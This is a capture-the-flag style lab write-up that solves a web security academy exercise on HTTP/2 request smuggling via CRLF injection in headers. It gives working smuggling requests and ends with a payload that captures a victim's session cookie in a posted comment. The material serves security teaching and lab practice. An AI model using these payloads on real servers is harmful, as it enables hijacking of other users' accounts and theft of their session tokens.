







# HTTP/2 request smuggling via CRLF injection
# Objective
 This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them. 

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Length: 5

x=1
```

||
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |

#### H2.TE attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar
```

||
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |


### CRLF injection attempts
#### H2.CL attempt
Website is not vulnerable to `H2.Cl` request smuggling.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nContent-Length: 0

SMUGGLED
```

||
|:--:| 
| *Request is denied due to duplicated CL headers* |

#### H2.TE attempt
Website is vulnerable to `H2.TE` request smuggling.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nTransfer-Encoding: chunked

0

SMUGGLED
```

||
|:--:| 
| *HTTP/2 downgrading vulnerability occured* |


## Exploitation
First request poisoned the back-end. Second request that cames from victim is appended to the previous request. Thanks to this a new comment is posted on the website that includes victim's request headers including victim's session cookie.

`Content-Length: 604` header was added automatically.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar\r\nTransfer-Encoding: chunked
Content-Length: 604

0

POST /post/comment HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Cookie: session=MU0PLtwRpeJ2AV76Am6Lgpbtse6nyFXA; _lab_analytics=SdlnSmkY8YlobmilsWi2h20qQ1XGFysS4P4U9cU78FLEo9XOSIMlknQPAIZWR9xFSvItH6IYHtOoVUd3yVYudvptq9Sbu4xNUBawLoN0V87b7LMbnB6YmE2oo2d7DPmpVKqnEQ6JMvzMxPNLZKRPB4RYMUC6w0O1tsLTtzf7PKTS3mh14ExWmulhSKDVjaYTxpGm5dBrQCMnFpNSf2fDZK8CwzClcpSl7o2tLnSIsfwibXTQ8oBZvWpSyKyqsnsI
Content-Type: application/x-www-form-urlencoded
Content-Length: 928

csrf=A88gwj6Agh55XZYT4M70dqDluIZheemR&postId=8&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

||
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
||
| *Request was smuggled successfuly - special header* |
||
| *Request was smuggled successfuly - session token in comment* |
